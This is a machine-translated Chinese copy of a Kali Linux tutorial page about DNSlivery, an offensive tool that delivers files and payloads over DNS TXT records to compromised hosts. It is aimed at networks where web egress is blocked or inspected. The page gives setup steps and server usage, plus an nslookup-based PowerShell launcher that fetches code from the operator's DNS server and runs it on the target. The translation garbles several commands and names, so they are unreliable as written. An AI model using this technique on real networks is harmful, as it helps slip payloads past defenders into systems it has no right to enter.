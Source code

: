 # DNSlivery:通过 DNS 轻松交付文件和有效负载

> 原文：<https://kalilinuxtutorials.com/dnslivery/>

[![DNSlivery : Easy Files & Payloads Delivery Over DNS](img/d2497febf450a029aebb662e12c61f96.png "DNSlivery : Easy Files & Payloads Delivery Over DNS")](https://1.bp.blogspot.com/-bHbcsCPUMV0/XQrdH4moHaI/AAAAAAAAA7Q/5fWgNAIQIMcQb9hShML2MsqBocAN3EAXQCLcBGAs/s1600/DNSlivery%2B-%2B1.gif)

**DNSlivery** 允许使用 DNS 作为传输协议将文件传送到目标。以下是功能:

*   允许在目标上打印、执行或保存文件
*   不需要目标上的任何客户端
*   不需要成熟的 DNS 服务器

你想解决什么问题？

轻松地将文件和/或有效负载交付给无法进行传统 web 交付的受损目标，并且**无需专用客户端软件**。这适用于受限制的环境，在这些环境中，流出的 web 流量被禁止，或者只是被好奇的 web 代理检查。

![](img/596134dec57518a7e7e89a7bd785fb7a.png)

即使已经存在更完整的 DNS 隧道工具(s.a. [dnscat2](https://github.com/iagox86/dnscat2) 和[碘](https://code.kryo.se/iodine/))，它们都需要在目标上运行专用客户端。问题是，在这种受限的环境中，除了 DNS 之外，可能没有其他方法可以提供客户端。换句话说，使用这些工具构建 DNS 通信通道需要已经有一个 DNS 通信通道。

相比之下，DNSlivery 仅提供从服务器到目标的单向通信，但不需要任何专用客户端来完成此任务。因此，如果您需要在 DNS 上建立一个可靠的双向通信通道，可以使用 DNSlivery 将一个更高级的 DNS 隧道工具的客户机交付到您的目标。

**也读作——[GetWin:FUD Win32 有效负载生成器&监听器](https://kalilinuxtutorials.com/getwin/)**

**它是如何工作的？**

就像大多数 DNS 隧道工具一样，DNSlivery 使用`TXT`记录来存储 base64 表示的文件内容。然而，它不需要设置一个成熟的 DNS 服务器来工作。相反，它使用 [scapy](https://scapy.net/) 库来监听传入的 DNS 包，并制作所需的响应。

![](img/58d27bf92de7c3df95552664a8e1ab98.png)

由于大多数文件不适合放在单个`TXT`记录中，DNSlivery 将创建多个包含 base64 文件块的有序记录。作为一个例子，上图展示了名为`file`的文件的第 42 个^(和第 3 个)块的交付。

为了检索所有 base64 区块并将它们放回一起，而不需要目标上的专用客户端，DNSlivery 将为每个文件生成:

*   一个简单的明文启动器
*   可靠的 base64 编码 stager

![](img/3e88c56e2ae78e609699c9dc3b6bd9eb.png)

这一两阶段交付流程是向 stager(即处理丢失的 DNS 响应)添加功能所必需的，否则这些功能将无法包含在单个`TXT`记录中。

**目标兼容性注意事项**

目前，仅支持 PowerShell 目标。然而，DNSlivery 可以改进以支持更多的目标，如 bash 或 python。如果这是你希望看到实现的功能，请告诉我。

**要求**

DNSlivery 不需要构建复杂的服务器基础设施。事实上，只有两个简单的要求:

*   能够在您的公共 DNS 区域创建一个`NS`记录
*   拥有一台能够接收互联网流量的 Linux 服务器

**设置**

**DNS 区域**

第一步是通过在您的域中创建新的`NS`记录，将一个子域委派给运行 DNSlivery 的服务器。作为一个例子，我创建了下面的记录来将子域`dnsd.no0.be`委托给位于`vps.no0.be`的服务器。

NS vps.no0.be 中的 dnsd。

如果您的区域由第三方提供商管理，请参考他们的文档来创建`NS`记录。

**DNS lively**

运行 DNSlivery 的唯一要求是`python3`和它的`scapy`库。

git 克隆 https://github.com/no0be/DNSlivery.git & CD DNS livery
pip install-r requirements . txt

**用法**

**服务器**

DNSlivery 将为给定目录的所有文件提供服务(默认为`pwd`)，并且需要以 root 权限运行**，以监听传入的`udp/53`数据包。**

**用法:**DNS live . py[-h][-p PATH][-s SIZE][-v]接口域名服务器

**DNS live–通过 DNS 轻松传送文件和有效负载**

**位置参数:**
接口监听 DNS 流量的接口
域名 FQDN DNS 区域的名称
名称服务器 FQDN 运行 DNS live 的服务器名称

**可选参数:** –PATH 通过 DNS 提供服务的目录路径(默认值:pwd)
-s SIZE，–SIZE 以字节为单位的 base64 块大小(默认值:255)
-v，–verbose 增加详细程度

**例子**

$ sudo python 3 dns live . py eth 0 dnsd . no0 . be VPS . no0 . be-p/tmp/DNS-delivery

DNS live–通过 DNS 轻松交付文件和有效负载

[]File“File”准备在 file.dnsd.no0.be (7 个块)[]监听 DNS 查询…

**关于文件名规范化的说明**

由于域名允许的字符集比 UNIX 文件名更严格(根据 [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1) )，DNSlivery 将在需要时执行规范化。

**举例**:

[*] File“我牛逼的 Powershell 脚本；). ps1“准备交付于 my-awesome-powershell-script—-PS1 . dnsd . no0 . be(1891 块)

请注意，当前的标准化代码并不完美，因为它没有考虑重叠文件名或大小限制。

**目标**

在目标上，通过请求其专用的`TXT`记录，从**检索所需文件的启动器**开始。支持以下三种启动器:

| 行动 | 发射者 | 描述 |
| --- | --- | --- |
| 打印 | `[filename].print.[domain]` | (**默认**)将交付的文件打印到控制台 |
| 执行 | `[filename].exec.[domain]` | 执行交付的文件(对脚本有用) |
| 救援 | `[filename].save.[domain]` | 将交付的文件保存到磁盘(对二进制文件有用) |

```
nslookup -type=txt [filename].[stager].[domain]
```

然后，只需**将 DNS 响应中引用的启动器复制并粘贴到 PowerShell 控制台**中，以在目标上检索文件。

[**Download**](https://github.com/no0be/DNSlivery#what-problem-are-you-trying-to-solve)